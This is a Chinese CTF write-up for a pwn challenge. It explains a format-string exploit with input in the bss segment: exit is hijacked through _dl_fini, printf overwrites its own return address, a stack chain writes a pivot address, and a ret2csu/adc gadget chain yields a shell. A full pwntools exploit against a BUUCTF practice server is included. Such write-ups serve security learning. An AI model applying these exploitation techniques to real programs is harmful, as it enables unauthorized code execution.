## 总结：

> 通过这道题的学习与收获有：
>
> 1、bss段的格式化字符串，需要找一条栈链，需要用栈地址->栈地址->栈地址->值，用第二个栈地址来控制第三个栈地址，将第三个栈地址当做跳板，最终去通过跳板的不断移动，去不断写入一或两字节的数据。
> 这里稍稍总结两句。
> 利用格式化字符漏洞来达到写的目的，分为两种情况。
> 如果输入直接是在栈中，那就可以去利用距栈顶偏移加我们构造地址，去达到任意地址任意写的目的。
> 如果输入是在bss段，那么要利用栈链，来进行任意地址任意写。

> 2、这道题的思路是一边利用格式化字符串漏洞去不断执行printf和read，一边在栈里写入bss段地址，为之后的栈迁移做打算。最后将布置好的rop链发送过去，让执行流迁移到rop链上，利用magic gadget来获取shell。
>
> 3、又收集到了一个新的magic gadget。adc    DWORD PTR [rbp+0x48],edx    机器码搜11554889
>
> 4、第一次遇见格式化字符函数自己修改自己的返回地址去执行自己... 另外就是格式化字符并不需要对齐，格式化字符后面的地址才需要对齐。
>
> 5、多注意栈里的数据，是否有特殊的存在。没思路的时候，就调试一下看看能不能找到有用的信息。


## 保护策略：




## 程序分析：




程序很短，这题很简单？

hh，继续往下看吧。

程序就四个点，第一是程序自己泄露个栈地址

第二是close关闭了标准输出，如果不过仅仅是关闭了一个文件描述符，只要能获取shell的话，重定向一下文件描述符就ok了。

第三是有个格式化字符漏洞的点，同时这道题溢出给的超大（并且是输入到bss段）。

第四是程序没有return，格式化字符函数利用完之后，程序就exit了。


首先猜测泄露的栈地址应该是要配合格式化字符函数使用的，close只关闭了一个文件描述符，只要能获取shell的话，这个点也好处理。最困难的点是print后面紧接着就是exit了，因此去用print来修改main函数的返回地址以劫持执行流肯定是行不通的了，至此卡死...

## 尝试一下调试

### 先patch一下

先patch一下libc和ld，这道题是2.23的libc，查看方法如下。







然后下载对应的libc，patch一下即可。（这道题我看了一下发现是2.23的，就直接用glibc-all-in-one里的2.23libc了，结果最后导致小版本不同，本地打通了，远程没通，因此下回直接patch buu上给的libc即可）

[如何patch，我这篇博客有提到]((https://www.cnblogs.com/ZIKH26/articles/16044588.html))

### 初步调试

首先明确一下我们想看什么，我们现在什么也不知道，但是打算去看一下栈里的情况碰碰运气**（栈中情况如下）**。不过格式化字符函数之前的栈一律不用看（因为我们利用不了）。

基本上感觉看不出来什么，如果非要说个不一样的，那就发现有个栈里的内容颜色和其他的不一样。（此时是即将执行格式化字符函数时）




用vmmap看一下，发现这个地址是位于ld.so中的，这个地址有点奇怪，不过依然不知道这里有什么用。




不过根据经验来看，似乎是要劫持exit里的某个hook？因为之前也遇见过一道类似这种手法的题目。

si进入exit里面看看。

经过漫长的si之后，终于在dl_fini+250处执行之后，此时的栈里，居然出现了刚才的那个奇怪地址**（栈中情况如下）**




继续又si了很久，发现此时call了一下，我们溯源一下r12寄存器的值（rdx就不用管了，因为本身自己就为0了）。




往上翻了几步发现，r12的值是自身的值加上了rbx所指向的内容。(我们可以控制rbx所指向的内容，但是控制不了原本的r12)



### 解决exit的退出问题

#### 重新梳理一下当前信息：

1、栈里有个位于ld.so中的地址，我们可以利用格式化字符串漏洞修改这个地址所指向的值（但是修改不了这个位于ld.so地址）。**（因为格式化字符串漏洞想要修改某个值，就必须去找到指向这个值的地址利用相对栈顶偏移完成修改）**。

2、程序最后调用了`exit`中的`__run_exit_handlers`函数中的`_dl_fini`中的一个call ptr[r12+rdx*8]   而r12就是那个**位于ld.so中的地址所指向的值(不修改的话，默认为0)**加了0x600dd8。


#### 我们当下的目的是什么？

劫持程序执行流，不让其触发exit导致程序结束，并且让执行流去重新执行read以及printf（不能返回到main函数，不然会重新初始化栈空间），因为程序的漏洞点只有这一个，因此只能劫持到这里。

#### 怎么做？

由于call后面加了个ptr，因此r12最后的值应该让它去指向这里



采用策略是将0x4007A3布置到bss段，然后让r12的值为指向0x4007A3的地址(也就是bss段地址)。

#### 对应payload

```python
payload='%'+str(0x298)+'c%26$hn'
payload=payload.ljust(16,'\x00')
payload+=p64(read_print_addr)#这个地址要放在最后，如果放在payload最开始
#p64打包产生的00会将格式化字符函数截断，导致后面布置的格式化字符无法被解析
p.send(payload)
```

关于payload解释如下




此处距离栈顶偏移20，再加上6个寄存器，偏移为26。

payload从0x601060开始输入，把格式化字符部分填充为16个字节，因此0x601070装的是0x4007A3。**在\__dl\__fini中执行add的时候r12原本的值为0x600dd8**。因此需要将rbx所指向的值修改为0x298(0x601070-0x600dd8) ，这样才能让最后call的时候r12为0x601070。


### 如何多次任意写？

现在确实是又返回到了read函数，我们的思路应该是写个rop链在bss段，然后想办法让执行流迁移过去。具体细节先不想那么多，但是一次printf肯定是不行的，那怎么办？光想的话，我也不知道怎么办...    那就继续调试，看看此时栈里有没有可用利用的地方



可以发现栈里此时多了很多指向栈本身的指针，最值得关注的是红框的那个地方。这个栈地址是指向当前栈顶的上一个内存单元，这意味着如果执行printf的话，那printf的返回地址将被存放到这个内存单元（如下图）




此时的这个0x4007c6就是printf的返回地址了。

所以我们就可以... **用printf修改printf的返回地址以便让执行流继续执printf**！！

（这个想法听起来有点小疯狂，但是确实可以实现，**这样做的前提是栈中必须存放着一个栈地址，并且这个栈地址指向了当前函数的返回地址**）

#### 半成品payload

所以这里的半成品payload是这样的（0xa3是read的地址的末字节，偏移23就不再数了）

```python
payload='%'+str(0xa3)+'c%23$hhn'
```

之所以是半成品，是因为执行了这个之后我们仅仅只是返回到了printf，但事实上我们需要再干点别的事情（因为单纯的无限执行printf是没有意义的）

## 题目整体大致思路：

此时再捋一下获取shell的思路。

1、你想尝试泄露函数地址，去libc里搜system？   close(1)直接打消了这条路 （因为执行打印函数是无法泄露出来内容的）

2、在不知道libc基址的情况下，目前我能想到的方法只有去利用magic_gadget来修改一个got表了。

3、想利用magic_gadget就肯定是需要专门控制寄存器，采用的手法肯定要是ret2csu。但是想利用ret2csu中的pop去控制各个寄存器，就意味着我们能够控制栈中的数据，可事实上我们输入的内容全都跑到bss段了。（如果利用格式化字符函数把数据全部布置到栈上是不现实的）因此采用的对抗策略是迁移栈到bss段。

4、这道题迁移栈和以往的栈迁移不一样，以往的栈迁移是可控的栈地址很少，因此装个leave；ret，但事实上这道题我们压根就无法输入内容到栈上。考虑下栈迁移的本质是什么？ 控制rsp寄存器。搜一下gadget看看？



发现是存在pop rsp的。

5、至此思路已经很清晰了，用pop rsp来改变栈到bss段，然后布置rop链到bss段。不过在此之前我们需要将pop rsp布置到bss地址的上面紧挨着的内存单元(因为pop弹的就是下一个内存单元的值给rsp)。

而pop rsp最终怎么被执行？只能是将print的返回地址改成pop rsp的地址

> **最终得出结论：** 我们要一边劫持printf进行多次格式化字符串漏洞的利用，一边要去将print返回地址下面的内存单元改成bss地址，改写完成后，最后一次payload去将print的返回地址改写成pop rsp地址，并且将rop链发送到bss段上。

接下来的内容分为两部分，第一部分是如何一点一点在栈上写入bss段地址，第二部分为rop链的构造。

## 栈链的布置

首先明确两件事情，我们修改地址无法用$n一次性将整个内容全部写入(因为字符数量太多将导致传输异常）因此我们最多只能一次写两字节($hn)或是一次写一字节($hhn)。

第二件事，就是使用格式化字符串任意写的时候，是利用相对栈顶偏移写入数据，难道是将数据写到相对栈顶偏移的这个地方？不不不，**其实是将数据写到了相对于栈顶偏移这个地方所指向的地方。**

以`%100c%9$hn`为例。它的意思是**说将100写入距离栈顶偏移为9所指向的位置**（如下图）。





这两张图片应该能说明的很充分了吧，**就是栈中数据必须是个地址，才能通过它修改它指向的那个位置**。（0x112233变成0x112264是因为100的十六进制是64）


> 此时我们想在一个大小为八字节的内存单元中用一次写入两字节的方法凭空写一个bss段地址，需要怎么做？
>
> 现在将进入烧脑时刻，我们暂时先抛开这道题，去想一下这个问题

我们似乎要去找一个栈地址a，这个栈地址a指向的内容也要是个栈地址b，然后我们就可以去往栈地址b所指向的那个内存单元里写入一个bss段地址了，就跟上面那两张图片一样？

但是似乎出现了点问题，因为我们只能一次写入两字节，而要写入bss段地址的同时还要将这个内存单元中没有用的部分将其设置为0。如果再按照上面两个图片的方法去写入，我们永远只能去修改那一个字节的部分。

因此产生的策略是，我们用三个指针来完成写入bss地址这件事。直接上图片




现在假设a,b,c全部都为栈地址，而d的值为0xffffffffffffffff，我们最终的目的是将d修改为0x601060。

>  我们先看最后一行的三个指针，如果现在有个格式化字符串漏洞的话，我们是可以拿到b距离栈顶偏移，然后通过b去修改c的值。然后还可以看第二行，拿到c相对栈顶偏移，通过c去修改d的值。而我们每次只能写入两个字节，也就是说第一次只能通过c来将d修改为0xffffffffffff1060。然后我们再去第三行，通过b来修改c的值，把c改成c+2，接着再回到第二行，通过c来修改d的值，这次我们将d可以改成0xffffffff00601060。依次类推（把前面的ff全部改成0），我们靠移动c指针的位置，来改变我们写入d的位置，尽管一次是写入两个字节，但是最终依旧可以达到在一个内存单元中写出一个完整的地址。

如果没理解的话，先确保自己是否真的明白如何利用格式化字符漏洞完成写的操作，如果是真的明白这件事，就反复去想一下上面的过程。


ok,我现在假设你已经懂了上面的过程，那接下来的过程对你来说就是小儿科了。

思路重新回到这个题目来，看一下执行完第一个payload之后，栈里的情况（如下图）



现在我们要做的就是在栈里写一个bss段地址（本题写的bss段地址是0x601088，这个地址刚开始是不知道的，我们可以先随便写个地址，最后通过调试去把这个正确的地址进行重新修正）

上图中标注的①，②，③其实就对应我演示的那个图片。还记得上文提到的一个半成品payload么，其实就是④，printf将修改它自己的返回地址。

下面来展示下payload，以及修改前后的栈（变化前后的地方已用红框标注）（修改原理上面已经介绍过了）

```python
hook_addr=((leak_stack_addr-0x118)&0xff)#泄露的栈地址距离返回地址下面的那个内存单元的地址偏移为0x118
if hook_addr>0xa3:
    judge=1
else:
    judge=2
#if进行判断是因为，我们并不知道hook_addr和0xa3谁打，因此需要应对这两种情况
if judge==1:
    payload='%'+str(0xa3)+'c%23$hhn'
    payload+='%'+str(hook_addr-0xa3)+'c%18$hhn'

if judge==2:
    payload='%'+str(hook_addr)+'c%18$hhn'
    payload+='%'+str(0xa3-hook_addr)+'c%23$hhn'
p.send(payload)
```

修改前：



修改后：




```python
payload='%'+str(0xa3)+'c%23$hhn'
payload+='%'+str(0x1088-0xa3)+'c%13$hn'#去写入低二字节0x1088
p.send(payload)
```

修改前：



修改后：




```python
#开始移动 指向bss段指针，方便第二次的写入bss段
hook_addr=hook_addr+0x2#将指向bss段的指针抬高两字节
if judge==1:
    payload='%'+str(0xa3)+'c%23$hhn'
    payload+='%'+str(hook_addr-0xa3)+'c%18$hhn'

if judge==2:
    payload='%'+str(hook_addr)+'c%18$hhn'
    payload+='%'+str(0xa3-hook_addr)+'c%23$hhn'
p.send(payload)
```

修改前：



修改后：



```python
payload='%'+str(0x60)+'c%13$hn'
payload+='%'+str(0xa3-0x60)+'c%23$hhn'
p.send(payload)
```

修改前：



修改后：




```python
hook_addr=hook_addr+0x2#继续将指向bss段的指针抬高两字节
if judge==1:
    payload='%'+str(0xa3)+'c%23$hhn'
    payload+='%'+str(hook_addr-0xa3)+'c%18$hhn'

if judge==2:
    payload='%'+str(hook_addr)+'c%18$hhn'
    payload+='%'+str(0xa3-hook_addr)+'c%23$hhn'
p.send(payload)
```

修改前：



修改后：




```python
payload='%13$hn'  #这个的意思是写入两字节的0给栈顶偏移13指向的位置
payload+='%'+str(0x082d)+'c%23$hn' #这个等下再说
p.send(payload)
```

修改前：



修改后：



至此我们已经达到想要的效果了，也就是将printf返回地址下面的那个内存单元写成bss段地址。

接下来我们就不用printf再返回去执行read了，我们去执行pop rsp


只需去改变返回地址的最后两字节即可。(payload如下)

```python
payload='%'+str(0x082d)+'c%23$hn'
```

至此，前面的工作全部完成，已经可以去迁移到我们指定的bss段了。接下来就是rop链的构造，不过在此之前还是需要介绍一下magic gadget

### 介绍一下magic_gadget

#### 一个新的magic_gadget
关于magic_gadget详细解释，我写在了这篇博客上  [here](https://www.cnblogs.com/ZIKH26/articles/16193814.html)



我以前用的magic gadget是这个 add    DWORD PTR [rbp-0x3d], ebx  但这道题搜对应的机器码搜不到了...  不过官方放出了另一个gadget 

adc    DWORD PTR [rbp+0x48],edx

这个的效果是和之前那个magic gadget效果一样。我们只需要利用csu片段控制一下寄存器rbp和edx的值，就可以达到修改的目的。**具体方法为 rbp中装入stderr指针（因为它本身就存在于libc库中），edx中放入libc中stderr与one_gadget的偏移。**

为什么要放stderr？因为标准输入和标准输出我们肯定是不能改，然后我本来是想放个没用函数的got地址，然后给修改了。但是我用pwndbg输入got之后没有把got表给展示出来...


那就用这个stderr来当做个跳板吧

#### 如何寻找这个新的magic gadget

ROPgadget --binary a --opcode 11554889       （直接搜这个gadget的机器码）





## rop链的构造

构造rop链之前，我们要考虑一下我们需要怎么做。

因为无法泄露libc基址，只能利用magic gadget去将stderr修改为one_gadget地址。控制参数使用csu片段，最后利用里面的call ptr去执行stderr，然后获取shell。

说写就写，首先我们当时是执行了一个pop rsp，但是后面还pop了三个寄存器


因此迁移过来的时候，先填充三个垃圾数据。

```python
rop=p64(0)+p64(0)+p64(0)
```

然后装入csu片段的地址,此时我们先控制rdx的值，如果现在控制rbp的话，cmp     rbx, rbp这个检查不好过。因此我们先把rbx和rbp设置成0和1，然后我们此时并不需要执行call ptr r12，因此r12这里放一个空函数（指向term_proc函数的地址，因为call的时候是ptr）暂时的payload如下

```python
rop=p64(0)+p64(0)+p64(0)#弹出了r13 r14 r15寄存器
rop+=p64(csu_gadget1)
rop+=p64(0)#rbx
rop+=p64(1)#rbp
rop+=p64(term_hook)
```

然后开始控制rdx，结合magic gadget来看的话

adc    DWORD PTR [rbp+0x48],edx

rdx里面装的是one_gadget和stderr的偏移（edx就是rdx寄存器的低四字节），由于这个偏移为负的，因此需要加上一个0x10000000000000000 (取补码)




接下来就是csu的正常传参，等执行完上面这个片段的时候，会再次执行下面的loc_400826，到pop rbp这里将其修改为stderr的地址-0x48即可（因为magic gadget中给stderr加了0x48），然后ret劫持到magic gadget上，最后再执行一次csu片段，控制r12为stderr地址，回到call ptr的时候，即可去执行one_gadget。

完整rop链：

```python
rop=p64(0)+p64(0)+p64(0)#弹出了r13 r14 r15寄存器
#执行adc
rop+=p64(csu_gadget1)
rop+=p64(0)#rbx
rop+=p64(1)#rbp
rop+=p64(term_hook)
rop+=p64(offset+0x100000000)
rop+=p64(0)+p64(0)
rop+=p64(csu_gadget2)
rop+=p64(0)#add rsp 8
rop+=p64(0)#rbx
rop+=p64(stderr_got_addr-0x48)#rbp
rop+=32*'a'
rop+=p64(adc_addr)
#call stderr
rop+='a'*8#rbp
rop+=p64(csu_gadget1)
rop+=p64(0)
rop+=p64(1)
rop+=p64(stderr_got_addr)
rop+=p64(0)+p64(0)+p64(0)
rop+=p64(csu_gadget2)

```

## EXP：

```python
#coding:utf-8
from pwn import *
context(arch='amd64',log_level='debug')
#p=process('./a')
p=remote('node4.buuoj.cn',28387)
e=ELF('./a')
#gdb.attach(p)


p.recvuntil('\x78')
leak_stack_addr=int(p.recv(12),16)
print('leak_stack-->  ',hex(leak_stack_addr))
hook_addr=((leak_stack_addr-0x118)&0xff)#减八因为bss段指针的指针需要抬高一个内存单元，去挨着printf返回地址
print(hex(hook_addr))
if hook_addr>0xa3:
    judge=1
else:
    judge=2

 
stderr_got_addr=0x601040
read_print_addr=0x4007A3
pop_rsp_r13_r14_r15_ret=0x40082d
adc_addr=0x4006e8
csu_gadget1=0x40082A
csu_gadget2=0x400810
stderr_offset=0x3C5540
one_gadget_offset=0x4526a
offset=one_gadget_offset-stderr_offset
term_hook=0x600e10

#rop链
rop=p64(0)+p64(0)+p64(0)#弹出了r13 r14 r15寄存器
#执行adc
rop+=p64(csu_gadget1)
rop+=p64(0)#rbx
rop+=p64(1)#rbp
rop+=p64(term_hook)
rop+=p64(offset+0x100000000)
rop+=p64(0)+p64(0)
rop+=p64(csu_gadget2)
rop+=p64(0)#add rsp 8
rop+=p64(0)#rbx
rop+=p64(stderr_got_addr-0x48)#rbp
rop+=32*'a'
rop+=p64(adc_addr)
#call stderr
rop+='a'*8#rbp
rop+=p64(csu_gadget1)
rop+=p64(0)
rop+=p64(1)
rop+=p64(stderr_got_addr)
rop+=p64(0)+p64(0)+p64(0)
rop+=p64(csu_gadget2)

#劫持exit，控制执行流
payload='%'+str(0x298)+'c%26$hn'
payload=payload.ljust(16,'\x00')
payload+=p64(read_print_addr)
p.send(payload)


#sleep(0.5)
pause()
if judge==1:
    payload='%'+str(0xa3)+'c%23$hhn'
    payload+='%'+str(hook_addr-0xa3)+'c%18$hhn'

if judge==2:
    payload='%'+str(hook_addr)+'c%18$hhn'
    payload+='%'+str(0xa3-hook_addr)+'c%23$hhn'
p.send(payload)


#修改printf返回地址，修改指针指向的内容（也就是bss段地址）
#此时第一次是不用修改指向bss段指针的，不过之后的每次修改bss段地址，都需要提前移动一下指向bss段的指针
pause()
#sleep(0.5)
payload='%'+str(0xa3)+'c%23$hhn'
payload+='%'+str(0x1088-0xa3)+'c%13$hn'
p.send(payload)

#开始移动 指向bss段指针，方便第二次的写入bss段
hook_addr=hook_addr+0x2
pause()
#sleep(0.5)
#if是用来判断，0xa3和输入的指针末尾谁大，以来决定谁放在前面
if judge==1:
    payload='%'+str(0xa3)+'c%23$hhn'
    payload+='%'+str(hook_addr-0xa3)+'c%18$hhn'

if judge==2:
    payload='%'+str(hook_addr)+'c%18$hhn'
    payload+='%'+str(0xa3-hook_addr)+'c%23$hhn'
p.send(payload)

pause()
#sleep(0.5)
payload='%'+str(0x60)+'c%13$hn'
payload+='%'+str(0xa3-0x60)+'c%23$hhn'
p.send(payload)

pause()
#sleep(0.5)
hook_addr=hook_addr+0x2
if judge==1:
    payload='%'+str(0xa3)+'c%23$hhn'
    payload+='%'+str(hook_addr-0xa3)+'c%18$hhn'

if judge==2:
    payload='%'+str(hook_addr)+'c%18$hhn'
    payload+='%'+str(0xa3-hook_addr)+'c%23$hhn'
p.send(payload)

pause()
#sleep(0.5)
payload='%13$hn'
payload+='%'+str(0x082d)+'c%23$hn'
payload=payload.ljust(40,'a')#因为前面填充了40字节的数据，而输入的起始地址为0x601060，加上40，就是rop链的位置（最终确定rop链为0x601088）
payload+=rop
p.send(payload)
#sleep(0.5)
pause()
#重新获取一下shell
p.sendline("sh>&2")
p.interactive()

```




### 本地通了，远程没通，应该去考虑libc的问题

最后本地打通，远程没打通。此时应该意识到可能是libc的问题，而这道题one_gadget又会受到libc的影响。因此应该去考虑下本地patch的libc是否和远程的一样，检查了一下发现，最后的问题出在了libc的小版本不同。最后用buu上的libc去搜索了一下one_gadget，最终成功获取shell。本地当时能成功是因为我patch的一个2.23 libc，又去这个libc里搜了个one_gadget，所以自然是能打通的，但是服务器那边肯定是以它自己的libc为准...